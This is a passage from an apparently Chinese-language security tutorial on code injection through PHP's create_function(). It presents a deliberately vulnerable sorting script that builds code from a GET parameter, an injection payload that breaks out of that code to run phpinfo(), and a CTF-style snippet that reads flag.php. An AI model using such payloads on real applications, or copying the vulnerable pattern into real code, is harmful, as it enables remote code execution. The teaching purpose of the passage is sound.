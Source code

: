 我们看到使用此函数为我们相当于创造了一个匿名的函数，给它赋以相应的变量，就执行了我们要执行的代码。

那么接下来我们来看一个简单的案例

```php
<?php
	error_reporting(0);
	$sort_by = $_GET['sort_by'];
	$sorter = 'strnatcasecmp';
	$databases=array('1234','4321');
	$sort_function = ' return 1 * ' . $sorter . '($a["' . $sort_by . '"], $b["' . $sort_by . '"]);';
	usort($databases, create_function('$a, $b', $sort_function));
?>
```

这个主要功能就是实现排序，这段代码就调用了`create_function()`函数，那么我们能否利用这个函数执行我们想要执行的代码呢？

当然可以，我们只需要在传参时将前面的符号闭合，然后输入我们想要执行的代码即可。

```php
payload='"]);}phpinfo();/*
执行payload前：$sort_function = ' return 1 * ' . $sorter . '($a["' . $sort_by . '"], $b["' . $sort_by . '"]);';
执行payloda后：$sort_function = ' return 1 * ' . $sorter . '($a["' . $sort_by '"]);}phpinfo();/*
```

看到这里，你可能会有稍微疑惑，就是你闭合就闭合吧，为什么后面多了个`;}`，不知道你是否想到了这一点？

那么我就来分析一下这个，上面的那段执行代码，实际上就是一个匿名函数的创建，既然是一个函数，注意是一个函数，那么你觉得有没有花括号呢？看我如下代码

```php
<?php
    //未闭合之前
    function sort($a,$b){
    ' return 1 * ' . $sorter . '($a["' . $sort_by . '"], $b["' . $sort_by . '"]);';
	}
	//闭合之后
	function sort($a,$b){
        ' return 1 * ' . $sorter . '($a["' . $sort_by '"]);
    }
        phpinfo();/*
    }
?>
```

可以看到，我们借用了匿名函数的位置，插入了我们要执行的代码，然后等这个匿名函数被`create_function`当作`$code`执行的时候，是不是代码就被执行了。

结果：

![](/assets/wgpsec/images/20200819181726.png)

那么`creat_function`函数还有别的用法吗？我们将上面一个案例简单的修改一下，代码如下：

```php
<?php
    $onefunc = create_function("","die(`cat flag.php`)");
	$_GET['func_name']();
	die();
?>
```
